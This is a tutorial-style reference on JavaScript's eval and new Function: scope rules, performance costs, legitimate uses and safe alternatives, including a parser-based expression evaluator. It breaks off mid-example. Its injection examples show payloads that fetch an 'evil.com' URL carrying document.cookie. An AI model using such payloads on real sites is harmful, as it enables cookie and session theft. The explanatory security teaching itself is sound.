



# 1.33 Eval and New Function Unsafe

> `eval` is the most misused feature of JavaScript. `new Function` is its slightly better-behaved cousin. Both let you treat strings as code, which is exactly as dangerous as it sounds. This note is an exhaustive, maximalist reference for understanding when they are appropriate (almost never), when they are not (almost always), and how to build the things people *try* to build with them (dynamic property access, JSON parsing, expression evaluation, plugin sandboxes) using safer primitives.

---

## 1. Purpose

JavaScript is, at its core, an interpreted-then-JIT-compiled language. Two language features exist that let a running program compile and execute *new* code at runtime: the global `eval` function and the `Function` constructor. Their reason for existence is **dynamic code execution** — the ability to take a string of source text and run it as if it had been part of the program from the start.

### Why they exist

There are legitimate use cases where running dynamically generated code is unavoidable:

1. **REPLs and interactive consoles.** The Node.js REPL, browser DevTools consoles, and Jupyter-style JavaScript kernels all need to accept arbitrary user-typed strings, evaluate them, and print the result. There is no way to do this without eventually calling some form of `eval`.
2. **Template engines.** Libraries like Lodash `template`, Handlebars (in compiled mode), Vue's template compiler, and Babel's generated module wrappers all produce JavaScript source strings at runtime and need to turn those strings into callable functions. The standard mechanism is `new Function`.
3. **Build tools and transpilers.** Babel, SWC, esbuild, and TypeScript all emit code that may itself be wrapped, evaluated, or compiled at runtime (especially in dev servers, hot-module-reload boundaries, and plugin systems).
4. **Sandboxed plugin systems.** VS Code extensions, Figma plugins, and similar systems may execute third-party code with restricted capabilities. While true isolation usually requires `vm`, Web Workers, or `iframe` sandboxes, the *entry point* to those sandboxes is often `new Function` or `eval`.
5. **Compiler output and DSLs.** Domain-specific languages (DSLs) that compile to JavaScript — query languages, rule engines, expression evaluators — frequently use `new Function` as the final "generate JS from my AST" step.

### Why they are almost always the wrong tool

Despite these legitimate uses, `eval` and `new Function` are infamous because, in everyday application code, they are a category error: **they convert data into code**, and that conversion is almost always accidental.

1. **Security: code injection.** If any portion of the string passed to `eval` or `new Function` is derived from user input (a URL parameter, a form field, an HTTP header, a database row, a third-party API response), you have built a code-injection vulnerability. The same logic that makes SQL injection dangerous applies here, except that JavaScript injection usually gives the attacker full access to the page (XSS) or, in Node.js, full access to the host (RCE).
2. **Performance: no JIT optimization.** V8, SpiderMonkey, and JavaScriptCore all treat functions that contain a *direct* `eval` call as unoptimizable. The reason is fundamental: a direct `eval` can modify any in-scope variable, add new bindings, and change the shape of the lexical environment in ways the compiler cannot predict. So the compiler gives up and runs the entire containing function in the slow interpreter tier.
3. **Debugging: no source maps.** Code generated at runtime by `eval` or `new Function` has no source file, no line numbers, no breakpoints. When it throws, the stack trace says `<anonymous>` or `eval at ...`. Errors are nearly impossible to diagnose in production.
4. **Maintainability: code as data is hard to reason about.** Static analysis tools (TypeScript, ESLint, IDE refactoring, dead-code elimination) cannot see into strings. If a variable is referenced inside an `eval`'d string, the tooling cannot know. This breaks rename refactors, dead-code detection, type narrowing, and tree shaking.
5. **Cognitive overhead.** Code that reads `eval(userInput)` requires the reader to mentally simulate every possible input. This is incompatible with the way humans read code (linearly, with bounded lookahead).

### When they ARE the right tool

There is a small, well-defined set of situations where `eval` or `new Function` is genuinely the right tool:

- **You are building a REPL.** The whole point is to evaluate arbitrary code.
- **You are building a template compiler.** You have an AST, you have generated a source string, and you need to materialize it as a function. `new Function` is the standard way.
- **You are building a sandboxed plugin system** and you have already accepted that `eval`/`Function` alone is not sufficient isolation (you also need `vm`, Web Workers, `iframe`, or a WASM-based interpreter like `quickjs-emscripten`).
- **You are a build tool** generating code that runs in a controlled environment where the source is trusted.

In every other situation, the answer is: **don't.** Use `JSON.parse` for data, bracket notation for dynamic property access, a real parser (`jsep`, `expr-eval`, `mathjs`) for expressions, and proper sandboxing (`vm`, Web Workers, `iframe`) for untrusted code.

This note will teach you the theory deeply enough that you can recognize every dangerous pattern, explain the trade-offs in an interview, and build safer alternatives from scratch.

---

## 2. Theory and Deep Dive

### 2.1 Direct eval

A **direct eval** is a call to `eval` written syntactically as `eval(x)` where `eval` refers to the global `eval` function (possibly shadowed, but the syntactic form is what matters). The defining behavior of direct eval is that **it executes in the current lexical scope**:

```js
function demo() {
  const secret = 42;
  eval("console.log(secret)"); // 42 — direct eval sees the local variable
}
demo();
```

Direct eval can read local variables, modify them, and — in sloppy mode — introduce new bindings that leak into the surrounding scope:

```js
// Sloppy mode
function leaky() {
  eval("var injected = 'hello'");
  console.log(injected); // 'hello' — the binding leaked out
}
leaky();
```

In strict mode, direct eval creates its **own** lexical scope, so bindings do not leak:

```js
"use strict";
function contained() {
  eval("var injected = 'hello'");
  console.log(injected); // ReferenceError: injected is not defined
}
contained();
```

This is one of the most important and least-understood strict-mode changes: **strict direct eval is scoped**, even though it still has read access to the enclosing scope.

### 2.2 Indirect eval

An **indirect eval** is any call to `eval` that is not syntactically `eval(...)` in the direct-call form. Common patterns:

```js
(0, eval)(str);          // the classic idiom
var e = eval; e(str);    // aliasing
window.eval(str);        // property access
eval.call(null, str);    // .call
const f = eval; f(str);  // assignment then call
```

The defining behavior of indirect eval is that **it executes in the global scope**:

```js
function demo() {
  const secret = 42;
  (0, eval)("console.log(typeof secret)"); // 'undefined' — indirect eval cannot see locals
}
demo();
```

The `(0, eval)` trick works because of the comma operator: `0` is evaluated and discarded, then `eval` is fetched from the global scope, but the *receiver* of the call is now `undefined` (or `0`'s value, irrelevant), so the call is treated as indirect. The spec's rule is essentially: "if the syntactic form is `eval(...)` and `eval` resolves to the built-in eval function, it's direct; otherwise it's indirect."

### 2.3 The spec distinction

The ECMAScript specification defines a special syntactic production: **`eval` as a `MemberExpression` in a `CallExpression`** is treated as a "direct eval." Every other call form — including `(0, eval)(...)`, `var e = eval; e(...)`, and `window.eval(...)` — is an indirect eval. The runtime semantics are radically different:

| Property | Direct eval | Indirect eval |
|---|---|---|
| Runs in current scope | Yes | No (global scope) |
| Can read local variables | Yes | No |
| Can modify local variables | Yes | No |
| Adds bindings to current scope (sloppy) | Yes | No (only to global) |
| Adds bindings to current scope (strict) | No (own scope) | No |
| Gets strict mode from enclosing scope | Yes | No (always sloppy unless body says `"use strict"`) |
| Disables JIT optimization of containing function | Yes | No |

### 2.4 `new Function`

The `Function` constructor creates a new function at runtime from a string. Its signature is:

```
new Function(arg0, arg1, ..., argN, body)
```

The last argument is the function body; all preceding arguments are parameter names. The resulting function behaves as if it had been declared at the top level of a fresh module-like scope — **it captures only the global scope, not the lexical scope where `new Function` was called**:

```js
const secret = 42;
const f = new Function("return secret");
console.log(f()); // 42 — captures globals
```

```js
function outer() {
  const secret = 42;
  const f = new Function("return secret");
  return f();
}
outer(); // ReferenceError: secret is not defined
```

This is the key difference from direct `eval`: **`new Function` cannot capture the closure scope of its call site**. It always behaves like a top-level function declaration. In that respect it is *safer* than direct eval — it cannot accidentally mutate local variables — but it is *not safer* in the sense of security: any user-controlled string in the body is still a code-injection vector.

The body runs in sloppy mode by default. To force strict mode, prepend `"use strict";` to the body:

```js
const f = new Function('"use strict"; return this;'); // undefined (in strict mode)
```

### 2.5 Strict mode and eval

Strict mode changes three behaviors of eval:

1. **Eval gets its own scope.** Bindings created inside `eval` do not leak to the enclosing function, even in sloppy mode.
2. **`this` at the top level of an eval is `undefined`** (in module/sloppy top-level eval it would be the global object).
3. **`arguments` and `caller` are poisoned** on functions created inside eval (same as any strict-mode function).

The first point is the most consequential. Consider:

```js
"use strict";
function f() {
  eval("var x = 1");
  console.log(typeof x); // 'undefined'
}
```

Without strict mode, `x` would leak into `f`'s scope. With strict mode, `x` lives only inside the eval. This is critical for tools (linters, JIT compilers) because it means a strict-mode direct eval cannot add new bindings to the surrounding function — only modify existing ones.

### 2.6 Performance implications

V8's optimizing compiler (TurboFan) cannot optimize a function that contains a direct `eval` call. The reason is fundamental:

- Direct eval can read and write any local variable.
- Direct eval can introduce new `var` bindings (in sloppy mode).
- Direct eval can shadow existing variables.
- Direct eval can call `delete` on properties of in-scope objects.

Because the compiler cannot predict what the eval'd string will do, it cannot perform any of its standard optimizations: inlining, escape analysis, hidden-class transitions, escape analysis, loop-invariant code motion, etc. So the containing function is **pinned to the interpreter (Ignition)** and never promoted to TurboFan.

Indirect eval and `new Function` do *not* have this problem, because they execute in the global scope and therefore cannot affect the optimization of the current function. However, the code they execute is still subject to its own optimization pipeline: the first call is interpreted, subsequent calls may be JIT-compiled, but each distinct string produces a new function object with its own optimization history.

There is also a **parse cost**: every call to `eval` or `new Function` requires the parser to run on the string. This is non-trivial — parsing is one of the most expensive phases of JS execution, and parsing the same string repeatedly is wasted work. A common optimization is to memoize the generated function.

### 2.7 Security: code injection

If the string passed to `eval` or `new Function` contains any user-controlled data, you have a code-injection vulnerability. Consider:

```js
// DANGEROUS
function getProperty(obj, key) {
  return eval("obj." + key);
}
getProperty(user, "name'); fetch('https://evil.com/?cookie=' + document.cookie);//");
```

The attacker has injected arbitrary JavaScript. In a browser, this is XSS — they can steal cookies, make requests on behalf of the user, deface the page, etc. In Node.js, this is RCE — they can read files, execute shell commands, exfiltrate environment variables.

A common (and incorrect) attempt to "sanitize" eval is to wrap the input in parentheses:

```js
// STILL DANGEROUS
const obj = eval("(" + userInput + ")");
```

This is the classic JSON-before-`JSON.parse` pattern. It is not safe. Consider the input:

```
{ name: 'x', get f() { fetch('https://evil.com/?c=' + document.cookie) } }
```

The getter runs as soon as the object is constructed, executing attacker-controlled code. Even if you disable getters via a reviver, there are still escapes (constructor attacks, `[[Prototype]]` poisoning, etc.). The only safe way to parse JSON is `JSON.parse`.

### 2.8 Safe alternatives

| Use case | Don't use | Use instead |
|---|---|---|
| Parse JSON | `eval("(" + str + ")")` | `JSON.parse(str)` |
| Dynamic property access | `eval("obj." + key)` | `obj[key]` |
| Evaluate arithmetic expression | `eval("1 + 2 * 3")` | A parser: `jsep`, `expr-eval`, `mathjs` |
| Run a user-defined formula | `eval(formula)` | Compile to a function via `new Function` *with a whitelist*, or use a parser |
| Execute untrusted code | `eval` or `new Function` alone | `vm` (Node), Web Workers + `postMessage`, sandboxed `iframe`, `quickjs-emscripten` |
| Compile a template | `eval` (if you must) | `new Function` (cleaner) — but consider a real template engine |
| Build a REPL | `eval` (legitimate) | `eval` or `vm` in a controlled context |

### 2.9 Mermaid diagram: direct vs indirect eval scope chains



### 2.10 Mermaid diagram: the decision tree for "should I use eval?"



---

## 3. Mental Models

### 3.1 Direct eval = "execute this string in MY scope"

Imagine the JavaScript engine physically inlining the source string at the point where `eval(...)` appears. Whatever variables are visible at that point are visible to the string. Whatever the string declares (in sloppy mode) becomes visible to the rest of the function. The string *is* the function's code, just late-arriving.

This is the most powerful and most dangerous form of eval. It can read your secrets, mutate your state, and — as a side effect — tell the JIT compiler "give up on optimizing me."

### 3.2 Indirect eval = "execute this string in GLOBAL scope"

Imagine the engine copying the string into a `<script>` tag and appending it to the page. It runs at global scope. It cannot see your local variables. It can only see globals. Bindings it creates go to the global object.

This is what you get with `(0, eval)(str)`. It is "less dangerous" than direct eval in two senses: it cannot accidentally mutate your locals, and it does not disable optimization of the calling function. But it is exactly as dangerous from a security standpoint: a malicious string still executes with full privileges.

### 3.3 `new Function` = "build a function at runtime, runs in global scope"

Imagine writing:

```js
function generatedName(arg0, arg1, body) {
  /* body */
}
```

…at the top level of a fresh script. That is what `new Function("arg0", "arg1", "body")` produces. The function captures globals but not the call site's closure. This makes it well-suited to "compile this generated source string into a callable function" use cases (template engines, expression compilers).

### 3.4 `eval` = "the nuclear option — almost never what you want"

If you find yourself reaching for `eval`, stop. There is almost certainly a more specific tool that does what you want, more safely, with better tooling support. The legitimate uses are narrow (REPLs, template compilers, sandboxes) and well-known. If your use case does not match one of those, you are using the wrong tool.

### 3.5 `JSON.parse` = "the safe way to parse data"

`JSON.parse` is a parser, not an evaluator. It accepts a strict subset of JavaScript literals (no functions, no getters, no `Date` objects, no `undefined`, no comments, no trailing commas) and produces a value. It cannot execute code. Use it for *all* data interchange.

### 3.6 `Function` = "safer than eval (no scope leakage) but still not sandboxed"

`new Function` is the right tool when you have a string that you have *generated yourself* and you want to turn it into a callable function. It is safer than direct eval because it cannot leak your locals. But it is *not* a security boundary: if the string contains attacker-controlled bytes, the attacker executes code with the full privileges of the surrounding context. For true isolation you need `vm` (Node), Web Workers, sandboxed iframes, or a WASM-based interpreter like `quickjs-emscripten`.

### 3.7 The "code vs data" axis

A useful framing: every value in a program is either **data** (passive, structured, interpreted by your code) or **code** (active, interpreted by the engine). The boundary between them is the most important security boundary in any system. `eval` and `new Function` are the two language features that *cross* this boundary. Every time you cross it, you grant the data the privileges of code. Make that crossing deliberately, with a clear reason, and only when the data is trusted.

---

## 4. Real-World Use Cases

### 4.1 Babel and compiled template output

Babel transforms modern JavaScript into a backwards-compatible form. In some plugins and runtime helpers, generated code is materialized via `new Function` (especially in dev mode where the cost of regenerating functions is acceptable). The Babel plugin author's contract is: "the source string is generated by my own AST visitor, so it is trusted." This is a legitimate use of `new Function`.

### 4.2 Vue's template compiler

Vue's template-to-render-function compiler takes an HTML template, parses it into an AST, optimizes static subtrees, and generates a JavaScript source string that, when wrapped in `new Function`, becomes the render function. This is the canonical "compile a DSL to JS" pattern. Vue 3's compiler generates code like:

```js
const render = new Function('ctx', 'with(ctx){return ' + code + '}');
```

In production, Vue uses `new Function` because the templates are author-controlled (not user-controlled). If you allow user-authored templates, you must sanitize them at the AST level — `new Function` itself provides no protection.

### 4.3 Lodash `template`

Lodash's `template` function compiles a string template (with `<%= %>` interpolation and `<% %>` evaluation) into a function. The implementation uses `new Function` internally:

```js
// Simplified
const func = new Function('obj', `
  with(obj || {}) {
    var t, p = '';
    ${compiledBody}
    return p;
  }
`);
```

This is a legitimate use: the template is trusted (it comes from the developer), and the data (`obj`) is sandboxed via `with` (which is itself a code smell, but the data cannot execute). If the template is user-controlled, this is an injection vector.

### 4.4 Browser DevTools consoles

When you type `2 + 2` into the Chrome DevTools console, the console does not literally `eval` your input — it uses the `Runtime.evaluate` CDP (Chrome DevTools Protocol) command, which is implemented in V8 and is essentially `eval` with extra debugging hooks. The same is true of the Node.js REPL (`repl.REPLServer` uses `vm.runInContext`, which is `eval`-equivalent).

This is the quintessential legitimate use: the entire purpose of the tool is to evaluate arbitrary user input.

### 4.5 REPLs (Node.js)

The Node.js `repl` module is built on `vm.runInContext`. It is a controlled `eval` with a persistent context object (so variables you define in one line persist to the next). The REPL is the canonical legitimate use of eval-like semantics in Node.

### 4.6 Sandbox systems

For untrusted code, neither `eval` nor `new Function` provides isolation. The correct tools are:

- **`vm` module (Node.js).** `vm.runInNewContext(code, sandbox)` runs code in a fresh V8 context with a controlled global object. *Note:* the Node.js docs explicitly state that `vm` is not a security mechanism — the `vm` context shares the event loop and can break out via prototype chain attacks. For true isolation, use `vm2` (deprecated), `isolated-vm`, or `quickjs-emscripten`.
- **Web Workers.** A worker runs in its own thread with its own global. Communication is via `postMessage`. The worker cannot access the DOM or the parent's variables. This is a reasonable sandbox for untrusted code, provided you control what the worker can do via messages.
- **Sandboxed iframes.** A `<iframe>` with the `sandbox` attribute (no `allow-scripts`, or with `allow-scripts` but without `allow-same-origin`) provides a tightly controlled JS execution environment. Communication is via `postMessage`. This is how CodePen, JSFiddle, and similar playgrounds isolate user code.
- **`quickjs-emscripten`.** A WebAssembly build of the QuickJS engine, running entirely in JS. This is a true sandbox: the code cannot access the DOM, the network, or the file system unless you explicitly provide those capabilities. It is the gold standard for "run untrusted JS in the browser safely."

### 4.7 Hot Module Replacement (HMR)

Webpack, Vite, and similar dev servers use `eval` (with a `//# sourceURL=` annotation) to execute updated module code in the dev environment. This is a build-tool use case: the code is trusted (it is the developer's own code), and the eval provides source-map-friendly execution.

---

## 5. Code Examples

### 5.1 Example A — Minimal and Conceptual

#### Direct vs indirect eval

```js
// direct-eval.js
function directDemo() {
  const secret = 42;
  eval("console.log('direct sees secret:', secret)"); // 42
}
directDemo();

function indirectDemo() {
  const secret = 42;
  (0, eval)("console.log('indirect sees secret:', typeof secret)"); // 'undefined'
}
indirectDemo();
```

```ts
// direct-eval.ts
// Note: TypeScript treats `eval` as returning `any`, and any variable
// referenced inside the eval string is NOT type-checked.
function directDemo(): void {
  const secret: number = 42;
  eval("console.log('direct sees secret:', secret)"); // 42
}
directDemo();

function indirectDemo(): void {
  const secret: number = 42;
  (0, eval)("console.log('indirect sees secret:', typeof secret)"); // 'undefined'
}
indirectDemo();
```

#### `new Function`

```js
// new-function.js
const add = new Function("a", "b", "return a + b");
console.log(add(2, 3)); // 5

// Captures only globals, not closure scope
const multiplier = 10;
const times10 = new Function("n", "return n * multiplier");
console.log(times10(5)); // 50 — multiplier is global
```

```ts
// new-function.ts
const add: (a: number, b: number) => number = new Function(
  "a",
  "b",
  "return a + b"
) as (a: number, b: number) => number;
console.log(add(2, 3)); // 5

const multiplier: number = 10;
const times10: (n: number) => number = new Function(
  "n",
  "return n * multiplier"
) as (n: number) => number;
console.log(times10(5)); // 50
```

#### Sloppy vs strict eval scope

```js
// eval-scope.js
function sloppyLeak() {
  eval("var leaked = 'I escaped'");
  console.log(leaked); // 'I escaped'
}
sloppyLeak();

function strictNoLeak() {
  "use strict";
  eval("var contained = 'I did not escape'");
  try {
    console.log(contained);
  } catch (e) {
    console.log("strict:", e.message); // 'contained is not defined'
  }
}
strictNoLeak();
```

```ts
// eval-scope.ts
function sloppyLeak(): void {
  eval("var leaked = 'I escaped'");
  // @ts-expect-error — eval'd vars are invisible to TS
  console.log(leaked);
}
sloppyLeak();

function strictNoLeak(): void {
  "use strict";
  eval("var contained = 'I did not escape'");
  try {
    // @ts-expect-error
    console.log(contained);
  } catch (e: any) {
    console.log("strict:", e.message);
  }
}
strictNoLeak();
```

### 5.2 Example B — Production-Grade

A production-grade safe expression evaluator that parses arithmetic expressions (with `+`, `-`, `*`, `/`, parentheses, numbers, and named variables) into an AST and evaluates the AST. **No `eval` anywhere.** Fully typed in TypeScript.

#### JavaScript version

```js
// safe-eval.js
// A safe arithmetic expression evaluator.
// No eval, no new Function, no code execution.
// Grammar:
//   expr   := term (('+' | '-') term)*
//   term   := factor (('*' | '/') factor)*
//   factor := NUMBER | IDENT | '(' expr ')' | '-' factor

function tokenize(input) {
  const tokens = [];
  let i = 0;
  while (i < input.length) {
    const ch = input[i];
    if (ch === " ") { i++; continue; }
    if (/[0-9.]/.test(ch)) {
      let num = "";
      while (i < input.length && /[0-9.]/.test(input[i])) num += input[i++];
      tokens.push({ type: "NUMBER", value: parseFloat(num) });
      continue;
    }
    if (/[a-zA-Z]/.test(ch)) {
      let id = "";
      while (i < input.length && /[a-zA-Z0-9]/.test(input[i])) id += input[i++];
      tokens.push({ type: "IDENT", value: id });
      continue;
    }
    if ("+-*/()".includes(ch)) {
      tokens.push({ type: "OP", value: ch });
      i++;
      continue;
    }
    throw new SyntaxError(`Unexpected character: ${ch}`);
  }
  return tokens;
}

function parse(tokens) {
  let pos = 0;
  const peek = () => tokens[pos];
  const consume = () => tokens[pos++];

  function parseExpr() {
    let left = parseTerm();
    while (peek() && peek().type === "OP" && (peek().value === "+" || peek().value === "-")) {
      const op = consume().value;
      const right = parseTerm();
      left = { type: "BinaryOp", op, left, right };
    }
    return left;
  }
  function parseTerm() {
    let left = parseFactor();
    while (peek() && peek().type === "OP" && (peek().value === "*" || peek().value === "/")) {
      const op = consume().value;
      const right = parseFactor();
      left = { type: "BinaryOp", op, left, right };
    }
    return left;
  }
  function parseFactor() {
    const t = peek();
    if (!t) throw new SyntaxError("Unexpected end of input");
    if (t.type === "NUMBER") { consume(); return { type: "Number", value: t.value }; }
    if (t.type === "IDENT")  { consume(); return { type: "Var", name: t.value }; }
    if (t.type === "OP" && t.value === "(") {
      consume();
      const e = parseExpr();
      if (!peek() || peek().value !== ")") throw new SyntaxError("Expected )");
      consume();
      return e;
    }
    if (t.type === "OP" && t.value === "-") {
      consume();
      return { type: "UnaryOp", op: "-", operand: parseFactor() };
    }
    throw new SyntaxError(`Unexpected token: ${JSON.stringify(t)}`);
  }

  const ast = parseExpr();
  if (pos !== tokens.length) throw new SyntaxError("Unexpected trailing tokens");
  return ast;
}

function evaluate(ast, env) {
  switch (ast.type) {
    case "Number":   return ast.value;
    case "Var":
      if (!(ast.name in env)) throw new ReferenceError(`Undefined variable: ${ast.name}`);
      return env[ast.name];
    case "UnaryOp":  return -evaluate(ast.operand, env);
    case "BinaryOp": {
      const l = evaluate(ast.left, env);
      const r = evaluate(ast.right, env);
      switch (ast.op) {
        case "+": return l + r;
        case "-": return l - r;
        case "*": return l * r;
        case "/": return l / r;
      }
    }
  }
}

function safeEval(expr, env = {}) {
  return evaluate(parse(tokenize(expr)), env);
}

// Usage
console.log(safeEval("1 + 2 * 3"));                  // 7
console.log(safeEval("(1 + 2) * 3"));                // 9
console.log(safeEval("2 * (a + b)", { a: 3, b: 4 })); // 14
console.log(safeEval("-5 + 10"));                    // 5

// What this does NOT do: execute code. Even if the input is
// "fetch('https://evil.com')", tokenize() throws SyntaxError
// on the '(' following an identifier without an operator.
```

#### TypeScript version

```ts
// safe-eval.ts
type Token =
  | { type: "NUMBER"; value: number }
  | { type: "IDENT"; value: string }
  | { type: "OP"; value: string };

type AST =
  | { type: "Number"; value: number }
  | { type: "Var"; name: string }
  | { type: "UnaryOp"; op: "-"; operand: AST }
  | { type: "BinaryOp"; op: "+" | "-" | "*" | "/"; left: AST; right: AST };

type Env = Record<string, number>;

function tokenize(input: string): Token[] {
  const tokens: Token[] = [];
  let i = 0;
  while (i < input.length) {
    const ch = input[i];
    if (ch === " ") { i++; continue; }
    if (/[0-9.]/.test(ch)) {
      let num = "";
      while (i < input.length && /[0-9.]/.test(input[i])) num += input[i++];
      tokens.push({ type: "NUMBER", value: parseFloat(num) });
      continue;
    }
    if (/[a-zA-Z]/.test(ch)) {
      let id = "";
      while (i < input.length && /[a-zA-Z0-9]/.test(input[i])) id += input[i++];
      tokens.push({ type: "IDENT", value: id });
      continue;
    }
    if ("+-*/()".includes(ch)) {
      tokens.push({ type: "OP", value: ch });
      i++;
      continue;
    }
    throw new SyntaxError(`Unexpected character: ${ch}`);
  }
  return tokens;
}

function parse(tokens: Token[]): AST {
  let pos = 0;
  const peek = (): Token | undefined => tokens[pos];
  const consume = (): Token => tokens[pos++];

  function parseExpr(): AST {
    let left = parseTerm();
    while (peek() && peek()!.type === "OP" && (peek()!.value === "+" || peek()!.value === "-")) {
      const op = (consume() as { value: "+" | "-" }).value;
      const right = parseTerm();
      left = { type: "BinaryOp", op, left, right };
    }
    return left;
  }
  function parseTerm(): AST {
    let left = parseFactor();
    while (peek() && peek()!.type === "OP" && (peek()!.value === "*" || peek()!.value === "/")) {
      const op = (consume() as { value: "*" | "/" }).value;
      const right = parseFactor();
      left = { type: "BinaryOp", op, left, right };
    }
    return left;
  }
  function parseFactor(): AST {
    const t = peek();
    if (!t) throw new SyntaxError("Unexpected end of input");
    if (t.type === "NUMBER") { consume(); return { type: "Number", value: t.value }; }
    if (t.type === "IDENT")  { consume(); return { type: "Var", name: t.value }; }
    if (t.type === "OP" && t.value === "(") {
      consume();
      const e = parseExpr();
      if (!peek() || peek()!.value !== ")") throw new SyntaxError("Expected )");
      consume();
      return e;
    }
    if (t.type === "OP" && t.value === "-") {
      consume();
      return { type: "UnaryOp", op: "-", operand: parseFactor() };
    }
    throw new SyntaxError(`Unexpected token: ${JSON.stringify(t)}`);
  }

  const ast = parseExpr();
  if (pos !== tokens.length) throw new SyntaxError("Unexpected trailing tokens");
  return ast;
}

function evaluate(ast: AST, env: Env): number {
  switch (ast.type) {
    case "Number":   return ast.value;
    case "Var":
      if (!(ast.name in env)) throw new ReferenceError(`Undefined variable: ${ast.name}`);
      return env[ast.name];
    case "UnaryOp":  return -evaluate(ast.operand, env);
    case "BinaryOp": {
      const l = evaluate(ast.left, env);
      const r = evaluate(ast.right, env);
      switch (ast.op) {
        case "+": return l + r;
        case "-": return l - r;
        case "*": return l * r;
        case "/": return l / r;
      }
    }
  }
}

export function safeEval(expr: string, env: Env = {}): number {
  return evaluate(parse(tokenize(expr)), env);
}

// Usage
console.log(safeEval("1 + 2 * 3"));                   // 7
console.log(safeEval("(1 + 2) * 3"));                 // 9
console.log(safeEval("2 * (a + b)", { a: 3, b: 4 })); // 14
console.log(safeEval("-5 + 10"));                     // 5
```

---

## 6. Common Mistakes and Anti-Patterns

### 6.1 Using `eval` to parse JSON

```js
// ANTI-PATTERN
const data = eval("(" + jsonString + ")");
```

This was common before `JSON.parse` existed (ES5, 2009). It is dangerously insecure: any JavaScript expression in `jsonString` executes, including function calls, getters, and assignments. The "wrap in parens" trick only handles the case where the JSON starts with `{` (which would otherwise be parsed as a block statement). It does not prevent code injection.

**Fix:** Use `JSON.parse`. It is a parser, not an evaluator. It rejects anything that is not valid JSON (no functions, no comments, no trailing commas, no `undefined`).

```js
const data = JSON.parse(jsonString);
```

### 6.2 Using `eval` for dynamic property access

```js
// ANTI-PATTERN
function getProp(obj, key) {
  return eval("obj." + key);
}
getProp(user, "name"); // works
getProp(user, "name; fetch('https://evil.com')"); // XSS
```

This is one of the most common `eval` anti-patterns. The intent is "access a property dynamically," and the developer reached for `eval` instead of bracket notation.

**Fix:** Use bracket notation.

```js
function getProp(obj, key) {
  return obj[key];
}
```

For nested paths (`"a.b.c"`), split and reduce:

```js
function getPath(obj, path) {
  return path.split(".").reduce((o, k) => (o == null ? o : o[k]), obj);
}
```

### 6.3 Direct `eval` disables JIT optimization of the containing function

```js
// ANTI-PATTERN
function hotLoop(data) {
  let sum = 0;
  for (let i = 0; i < data.length; i++) {
    sum += data[i];
    if (someCondition) eval(someStr); // V8 gives up optimizing hotLoop entirely
  }
  return sum;
}
```

Even if the `eval` is in a rarely-taken branch, V8 will not optimize `hotLoop`. The whole function stays in the interpreter. This can be a 10x–100x slowdown for tight loops.

**Fix:** Move the `eval` into a separate function (so only that function is unoptimized), or — better — eliminate the `eval` entirely.

```js
function maybeEval(str) {
  return eval(str); // only this function is unoptimized
}
function hotLoop(data) {
  let sum = 0;
  for (let i = 0; i < data.length; i++) {
    sum += data[i];
    if (someCondition) maybeEval(someStr);
  }
  return sum;
}
```

Or use indirect eval, which does not disable optimization:

```js
function hotLoop(data) {
  let sum = 0;
  for (let i = 0; i < data.length; i++) {
    sum += data[i];
    if (someCondition) (0, eval)(someStr);
  }
  return sum;
}
```

### 6.4 Assuming strict mode disables `eval`'s scope access

```js
"use strict";
function f() {
  const secret = 42;
  eval("secret = 99");     // STILL MUTATES secret
  console.log(secret);      // 99
}
f();
```

Strict mode does not prevent direct eval from reading or modifying existing local variables. It only prevents *new bindings* from leaking. If you have a `secret` variable, eval'd code can still read and mutate it.

**Fix:** Don't use direct eval at all. If you must run untrusted code, use `new Function` (which cannot see locals) or a real sandbox.

### 6.5 Assuming `new Function` captures closure scope

```js
function makeCounter() {
  let count = 0;
  // WRONG: this does not capture `count`
  const next = new Function("return count++");
  return next;
}
const c = makeCounter();
c(); // ReferenceError: count is not defined
```

`new Function` creates a function declared at global scope. It cannot see the closure variables of its call site. This is a common source of confusion for developers coming from `eval`.

**Fix:** Pass closure variables as parameters, or use a real closure:

```js
